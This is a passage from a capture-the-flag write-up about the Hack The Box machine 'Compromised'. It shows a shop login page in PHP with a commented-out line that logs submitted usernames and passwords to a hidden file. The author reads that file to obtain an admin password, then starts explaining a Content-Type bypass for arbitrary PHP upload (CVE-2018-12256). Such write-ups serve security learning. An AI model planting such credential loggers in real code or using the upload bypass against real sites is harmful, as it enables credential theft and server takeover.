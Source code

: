 ```PHP

  if (isset($_POST['login'])) {
    //file_put_contents("./.log2301c9430d8593ae.txt", "User: " . $_POST['username'] . " Passwd: " . $_POST['password']);
    user::login($_POST['username'], $_POST['password'], $redirect_url, isset($_POST['remember_me']) ? $_POST['remember_me'] : false);
  }

  if (empty($_POST['username']) && !empty($_SERVER['PHP_AUTH_USER'])) $_POST['username'] = !empty($_SERVER['PHP_AUTH_USER']) ? $_SERVER['PHP_AUTH_USER'] : '';

  $page_login = new view();
  $page_login->snippets = array(
    'action' => $redirect_url,
  );
  echo $page_login->stitch('pages/login');

  require_once vmod::check(FS_DIR_HTTP_ROOT . WS_DIR_INCLUDES . 'app_footer.inc.php');
```

That `file_put_contents()` line will put the credentials entered by the user in a file called `.log2301c9430d8593ae.txt` in the `/shop/admin` directory so it is worth checking if that file exists or not by visiting `http://10.10.10.207/shop/admin/.log2301c9430d8593ae.txt`

![img](https://github.com/FreezeLuiz/CTF-Writeups/blob/master/Boxes/htb-compromised/images/htb-compromised-wwwdata-creds.PNG "noice!")

>User: admin Passwd: theNextGenSt0r3!~

And just like that we found admin credentials for the CMS, time to see how the CVE works now. 

### CVE-2018-12256 Arbitrary File Upload

The [exploit](https://www.exploit-db.com/exploits/45267) is pretty straight forward, you can send PHP scripts to the server to be executed via the `vQmod` xml upload capability, the server will accept the request only if you change the `Content-Type: application/x-php` from `x-php` to `xml` 
